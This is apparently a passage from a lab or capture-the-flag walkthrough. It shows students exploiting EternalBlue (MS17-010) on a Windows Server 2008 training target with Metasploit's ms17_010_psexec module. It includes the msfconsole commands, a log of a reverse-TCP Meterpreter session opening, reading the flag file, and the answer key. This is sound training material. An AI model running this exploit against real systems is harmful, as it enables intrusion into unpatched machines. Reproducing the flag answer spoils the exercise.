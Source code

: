 Since the SMB port 445 is open and the spawned target machine is running the Windows Server 2008 OS, it will most probably be vulnerable to `EternalBlue`, thus, students need to use Metasploit and choose `exploit/windows/smb/ms17_010_psexec` as the exploit/module:

Code: shell

```shell
msfconsole -q
use exploit/windows/smb/ms17_010_psexec
set RHOSTS STMIP
set LHOST PWNIP
exploit
```

```
┌─[eu-academy-2]─[10.10.15.49]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfconsole -q

msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.129.153.252
RHOSTS => 10.129.153.252

msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 10.10.15.49
LHOST => 10.10.15.49

msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.15.49:4444
<SNIP>
[*] Meterpreter session 1 opened (10.10.15.49:4444 -> 10.129.153.252:49671) at 2022-03-18 12:30:01 +0000

meterpreter >
```

After attaining a Meterpreter session, students at last need to print the contents of the flag file "flag.txt":

Code: shell

```shell
cat C:/flag.txt
```

```
meterpreter > cat C:/flag.txt

EB-Still-W0rk$
```

Answer: `EB-Still-W0rk$`

# Infiltrating Linux
